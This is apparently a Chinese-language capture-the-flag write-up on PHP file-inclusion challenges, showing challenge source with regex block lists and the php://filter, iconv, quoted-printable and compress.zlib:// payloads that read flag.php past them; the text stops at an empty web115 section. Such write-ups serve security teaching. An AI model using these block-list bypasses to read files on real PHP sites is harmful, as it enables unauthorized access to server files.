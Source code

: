 1. /?file=php://filter/read/resource=flag.php
1. /?file=php://filter/convert.iconv.UCS-2LE.UCS-2LE/resource=flag.php
> 这个过滤器需要php支持 iconv ，而iconv是默认编译的。使用convert.iconv.*过滤器等同于用iconv()函数处理所有的流数据。
> iconv — 字符串按要求的字符编码来转换
> UCS-2LE是小端每个字节两位存储，UCS-2LE.UCS-2LE表示小端输入，小端输出

3. /?file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
> convert.quoted-printable-encode和convert.quoted-printable-decode使用此过滤器的decode版本等同于用 quoted_printable_decode()函数处理所有的流数据。没有和convert.quoted-printable-encode相对应的函数。convert.quoted-printable-encode支持以一个关联数组给出的参数。除了支持和convert.base64-encode一样的附加参数外，convert.quoted-printable-encode还支持布尔参数binary和 force-encode-first。convert.base64-decode只支持line-break-chars参数作为从编码载荷中剥离的类型提示。

4. /?file=compress.zlib://flag.php 压缩过滤器
## web113（php://filter以及死亡绕过）
```php
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
过滤了filter，使用压缩过滤器绕过
payload：/?file=compress.zlib://flag.php
## web114（php://filter以及死亡绕过）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 师傅们居然tql都是非预期 哼！
```
又不过滤filter了
payload：/?file=php://filter/read/resource=flag.php
## web115（%0c绕过）
```php
<?php
```